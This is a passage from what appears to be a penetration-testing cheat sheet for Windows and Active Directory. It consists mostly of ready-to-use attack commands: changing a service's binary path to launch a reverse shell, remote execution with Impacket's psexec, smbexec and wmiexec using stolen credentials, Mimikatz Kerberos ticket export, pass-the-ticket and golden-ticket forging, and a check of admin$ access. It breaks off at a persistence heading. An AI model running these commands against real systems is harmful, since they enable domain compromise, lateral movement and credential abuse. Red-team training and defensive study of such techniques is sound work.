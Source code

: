 #### **Modifying a Service to Run a Reverse Shell**

```powershell
sc config <service> binpath= "C:\path\to\shell.exe"  
sc start <service>  
```

* * *

## 8\. Lateral Movement & Persistence

### PsExec - Remote Code Execution

```bash
psexec.py <domain>/<user>:<password>@<target-IP>  
```

### SMBExec - Executing Commands via SMB

```bash
smbexec.py <domain>/<user>:<password>@<target-IP>  
```

### WMIExec - Executing Commands via WMI

```bash
wmiexec.py <domain>/<user>:<password>@<target-IP>  
```

### Pass-the-Ticket (PTT) Attack

#### **Extracting and Injecting a Kerberos Ticket**

```powershell
sekurlsa::tickets /export  
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<TARGET>.LOCAL.kirbi  
```

### Golden Ticket Attack

#### **Generating a Golden Ticket in Mimikatz**

```powershell
kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21-849420856-235  
```

#### **Verifying Ticket Injection**

```powershell
klist  
dir \\<TARGET>\admin$  
```

* * *

### Windows Persistence Methods
